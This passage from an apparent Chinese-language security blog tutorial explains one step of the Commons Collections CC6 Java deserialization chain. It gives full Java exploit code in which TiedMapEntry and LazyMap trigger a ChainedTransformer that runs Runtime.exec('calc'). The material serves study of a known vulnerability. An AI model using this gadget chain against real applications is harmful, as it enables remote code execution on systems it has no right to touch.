 ```
}
```

链子的下一步是，`TiedMapEntry` 类中的 `getValue()` 方法调用了 `LazyMap` 的 `get()` 方法。我们用 `TiedMapEntry` 写一个 EXP，确保这条链子是能用的。

- 因为 `TiedMapEntry` 是作用域是 `public`，所以我们不需要反射获取它的方法，可以直接调用并修改。

JAVA

```
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 调用 TiedMapEntryEXP 确保链子可用  
public class TiedMapEntryEXP {  
    public static void main(String[] args) throws Exception {  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
 new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 tiedMapEntry.getValue();
	}
}
```

- 成功弹出计算器

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/TiedMapEntryEXP.png)

> 这里的逻辑还是很简单的，直接 new 一个 `TiedMapEntry` 对象，并调用它的 `getValue()` 方法即可，它的 `getValue` 方法会去调用 `map.get(key)` 方法。

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/getValue.png)

